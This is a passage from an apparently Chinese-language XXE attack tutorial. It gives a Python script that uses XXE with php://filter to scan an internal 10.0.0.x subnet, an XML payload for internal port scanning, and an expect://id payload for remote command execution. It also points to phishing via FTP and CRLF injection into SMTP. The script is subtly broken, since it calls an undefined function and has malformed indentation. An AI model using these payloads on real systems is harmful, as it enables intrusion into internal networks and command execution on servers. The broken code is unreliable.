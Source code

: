 ```

def send_xml(xml):
    url="存在xxe的url地址"
    headers = {'Content-Type': 'application/xml'}
    x = requests.post(url, data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```

### 4、HTTP 内网主机端口扫描

payload

```
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```

### 5、内网盲注(CTF)

2018 强网杯 Wechat

[2018 强网杯 WP](https://www.anquanke.com/post/id/103213#h2-5)

### 6、文件上传

Java `jar://`协议相关，自行查看Reference

### 7、钓鱼：

利用ftp协议结合CRLF注入向SMTP服务器发送任意命令达到发送任意邮件的给任意人，详情查看Reference

### 8、其他

#### **1.PHP expect RCE**

由于 PHP 的 expect 并不是默认安装扩展，如果安装了这个expect 扩展我们就能直接利用 XXE 进行 RCE

**示例代码：**

```
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```
